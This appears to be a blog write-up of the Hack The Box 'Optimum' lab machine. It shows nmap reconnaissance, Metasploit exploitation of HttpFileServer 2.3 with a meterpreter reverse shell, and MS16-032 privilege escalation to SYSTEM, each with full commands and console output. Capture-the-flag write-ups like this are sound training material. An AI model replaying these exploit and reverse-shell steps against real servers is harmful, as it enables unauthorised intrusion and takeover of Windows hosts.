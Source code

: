 ```yaml
---
layout: post
title: Optimum(HTB)
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.8
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -sV -O 10.10.10.8

<br>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-19 15:14 EST
<br>Nmap scan report for 10.10.10.8
<br>Host is up (0.15s latency).
<br>Not shown: 999 filtered ports
<br>PORT   STATE SERVICE VERSION
<br><font color="BB69EC">80/tcp</font> open  http    <font color="53E100">HttpFileServer httpd 2.3</font>
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: general purpose|phone
<br>Running (JUST GUESSING): Microsoft Windows 2012|7|Phone|2008|8.1|Vista (91%)
<br>OS CPE: cpe:/o:microsoft:windows_server_2012 cpe:/o:microsoft:windows_7::-:professional cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
<br>Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (90%), Microsoft Windows 7 Professional (87%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%), Microsoft Windows 7 Professional or Windows 8 (85%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (85%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

<br>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 29.52 seconds
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>
<br>**Web**:-
![web](https://teckk2.github.io/assets/images/Optimum/1-Optimum.png)
<br>The target machine is running HttpFileserver 2.3 for which there is a public exploit available.
<br>**Exploit**:- [Rejetto HttpFileServer Remote Command Execution](https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec)
<br>**Vulnerabilty Description:-**:- Rejetto HttpFileServer (HFS) is vulnerable to remote command execution attack due to a poor regex in the file ParserLib.pas. This module exploits the HFS scripting commands by using '%00' to bypass the filtering. This module has been tested successfully on HFS 2.3b over Windows XP SP3, Windows 7 SP1 and Windows 8.

<br>**POC**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>msf > use exploit/windows/http/rejetto_hfs_exec
<br>msf exploit(<font color="red">rejetto_hfs_exec</font>) > set RHOST 10.10.10.8
<br>RHOST => 10.10.10.8
<br>msf exploit(<font color="red">rejetto_hfs_exec</font>) > set payload windows/x64\reterpreter/reverse_tcp
<br>payload => windows/x64/meterpreter/reverse_tcp
<br>msf exploit(<font color="red">rejetto_hfs_exec</font>) > set LHOST 10.10.*.*
<br>LHOST => 10.10.*.*
<br>msf exploit(<font color="red">rejetto_hfs_exec</font>) > set LPORT 4455
<br>LPORT => 4455
<br>msf exploit(<font color="red">rejetto_hfs_exec</font>) > exploit</p>

<p><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:4455 
<br><font color="RoyalBlue">[*]</font> Using URL: http://0.0.0.0:800/aPrzG0R5eKWK
<br><font color="RoyalBlue">[*]</font> Local IP: http://192.168.140.136:800/aPrzG0R5eKWK
<br><font color="RoyalBlue">[*]</font> Server started.
<br><font color="RoyalBlue">[*]</font> Sending a malicious request to /
<br><font color="RoyalBlue">[*]</font> Payload request received: /aPrzG0R5eKWK
<br><font color="RoyalBlue">[*]</font> Sending stage (1189423 bytes) to 10.10.10.8
<br><font color="RoyalBlue">[*]</font> Meterpreter session 1 opened (10.10.*.*:4455 -> 10.10.10.8:49162) at 2017-12-19 16:18:59 -0500
<br><font color="ffff00">[!]</font> Tried to delete %TEMP%\mbSzL.vbs, unknown result
<br><font color="RoyalBlue">[*]</font> Server stopped.</p>

<p>meterpreter > getuid
<br>Server username: <font color="53E100">OPTIMUM\kostas</font>
<br>meterpreter > sysinfo
<br>Computer        : OPTIMUM
<br>OS              : Windows 2012 R2 (Build 9600).
<br>Architecture    : x64
<br>System Language : el_GR
<br>Domain          : HTB
<br>Logged On Users : 1
<br>Meterpreter     : x64/windows
<br>meterpreter ></p> 

</div>
</font>
<br>Now we have the user _Kostas_ access, the target machine is running windows 2012 x64 so we can try MS16-032 exploit.
<br>[MS16-032 Secondary Logon Handle Privilege Escalation](https://www.rapid7.com/db/modules/exploit/windows/local/ms16_032_secondary_logon_handle_privesc)
<br>**Exploit Description:-**:- This module exploits the lack of sanitization of standard handles in Windows' Secondary Logon Service. The vulnerability is known to affect versions of Windows 7-10 and 2k8-2k12 32 and 64 bit. This module will only work against those versions of Windows with Powershell 2.0 or later and systems with two or more CPU cores.
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>meterpreter > background
<br><font color="RoyalBlue">[*]</font> Backgrounding session 1...
<br>msf exploit(<font color="red">rejetto_hfs_exec</font>) > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
<br>msf exploit(<font color="red">ms16_032_secondary_logon_handle_privesc</font>) > set SESSION 1
<br>SESSION => 1
<br>msf exploit(<font color="red">ms16_032_secondary_logon_handle_privesc</font>) > set TARGET 1
<br>TARGET => 1
<br>msf exploit(<font color="red">ms16_032_secondary_logon_handle_privesc</font>) > set LHOST 10.10.*.*
<br>LHOST => 10.10.*.*
<br>msf exploit(<font color="red">ms16_032_secondary_logon_handle_privesc</font>) > exploit</p> 

<p><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:4444 
<br><font color="RoyalBlue">[*]</font> Writing payload file, C:\Users\kostas\Desktop\xHWLMuJ.txt...
<br><font color="RoyalBlue">[*]</font> Compressing script contents...
<br><font color="53E100">[+]</font> Compressed size: 3584
<br><font color="RoyalBlue">[*]</font> Executing exploit script...
<br><font color="RoyalBlue">[*]</font> Command shell session 2 opened (10.10.*.*:4444 -> 10.10.10.8:49164) at 2017-12-19 16:53:33 -0500</p>


<p>^C[-] Error while running command exploit: 
<br>msf exploit(ms16_032_secondary_logon_handle_privesc) > sessions -l</p>

<p>Active sessions
<br>===============</p>

<p>  Id  Type                     Information               Connection
<br>  --  ----                     -----------               ----------
<br>  1   meterpreter x64/windows  OPTIMUM\kostas @ OPTIMUM  10.10.*.*:4455 -> 10.10.10.8:49162 (10.10.10.8)
<br>  2   shell x64/windows                                  10.10.*.*:4444 -> 10.10.10.8:49164 (10.10.10.8)</p>

<p>msf exploit(ms16_032_secondary_logon_handle_privesc) > sessions -i 2
<br>[*] Starting interaction with 2...</p>

<p>Microsoft Windows [Version 6.3.9600]
<br>(c) 2013 Microsoft Corporation. All rights reserved.</p>

<p>C:\Users\kostas\Desktop>whoami
<br>whoami
<br>nt authority\system
<br>C:\Users\kostas\Desktop>type user.txt.txt
<br>type user.txt.txt
<br><font color="53E100">****************************</font>
<br>C:\Users\Administrator\Desktop>type root.txt
<br>type root.txt
<br><font color="53E100">****************************</font>
<br>C:\Users\Administrator\Desktop></p>
</div>
</font>

<p class="message">
  ~ Hack the World and Stay Noob
</p>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>
